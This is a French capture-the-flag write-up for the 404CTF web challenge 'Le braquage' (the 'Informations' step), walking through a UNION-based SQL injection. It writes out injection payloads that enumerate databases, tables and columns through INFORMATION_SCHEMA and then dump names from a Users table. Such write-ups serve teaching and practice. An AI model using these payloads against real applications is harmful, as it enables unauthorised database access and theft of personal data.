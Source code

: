 ```yaml
---
title: CTFs | 404CTF | Web | Le braquage | Informations
author: BatBato
date: 2022-11-07
categories: [CTFs, 404CTF, Web, Informations]
tags: [404CTF, Web]
permalink: /CTFs/404CTF/Web/Le_braquage/Informations
---
```


# Informations

Il nous est suggéré d'utiliser ici les ```UNION```. On cherche donc le nombre de champs pour l'injection et on trouve :


![image](https://user-images.githubusercontent.com/73934639/174606807-94f0afe3-64a3-48bc-a1b1-ce02e228ed0a.png)



On cherche le nom de la base de données avec ```schema_name``` de la table ```INFORMATION_SCHEMA.SCHEMATA``` (``` UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA -- -```).
On obtient deux bases de données :


![image](https://user-images.githubusercontent.com/73934639/174607177-ca835e49-fe54-4ac0-b8e7-bbf22fb8ba92.png)



On se concentre maintenant sur la base de données ```UnionVendeurs```. On cherche les tables qu'elle contient (``` ' UNION select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='UnionVendeurs' -- - ```):

![image](https://user-images.githubusercontent.com/73934639/174607754-a71093ce-9d0f-4963-b26b-55463ca17e09.png)



La table ```Users``` semble être la plus intéressante. Mais nous ne connaissons pas le nom des colonnes (``` ' UNION select COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='Users' -- - ```):

![image](https://user-images.githubusercontent.com/73934639/174610013-90393f71-c3b6-4b1a-9f4b-c08cfec9af93.png)



On récupère le nom et le prénom ``` UNION select nom, prenom from Users -- -```:

![image](https://user-images.githubusercontent.com/73934639/174610266-6421865e-fb7a-45ea-bc7d-c0b74ed07d90.png)

Nous pouvons passer à [la dernière étape](https://nouman404.github.io/CTFs/404CTF/Web/Le_braquage/Rencontres).
